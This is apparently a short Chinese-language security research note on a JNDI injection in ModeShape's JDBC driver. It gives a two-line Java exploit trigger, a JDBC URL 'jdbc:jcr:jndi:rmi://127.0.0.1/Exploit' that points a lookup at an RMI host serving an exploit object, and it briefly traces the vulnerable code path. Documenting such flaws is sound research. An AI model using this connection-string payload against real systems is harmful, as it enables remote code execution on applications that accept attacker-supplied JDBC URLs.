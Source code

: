 # ModeShape-JNDI

ModeShape是一个分层的、事务性的、一致的数据存储，支持查询、全文搜索、事件、版本管理、引用以及灵活和动态的模式。它非常快速、高度可用、极具可扩展性，而且它是100%开源的，用Java编写。客户端使用（JSR-283）标准的内容库（又称JCR）的Java API或ModeShape的REST API，并可以通过JDBC和SQL查询内容。

ModeShape是JCR(Java Content Repository)的一个实现，使用JCR API来访问其他系统的数据，如文件系统、Subversion、JDBC元数据。

## 利用方法

依赖

```

```



```java
Class.forName("org.modeshape.jdbc.LocalJcrDriver");
DriverManager.getConnection("jdbc:jcr:jndi:rmi://127.0.0.1/Exploit");
```

## 简单分析

在org.modeshape.jdbc.delegate.LocalRepositoryDelegate#initRepository中

当调用this.getConnectionInfo时

![](img/1.png)

这里会去除前缀，之后很明显的jndi特征不必多说了

![](img/2.png)![](img/3.png)
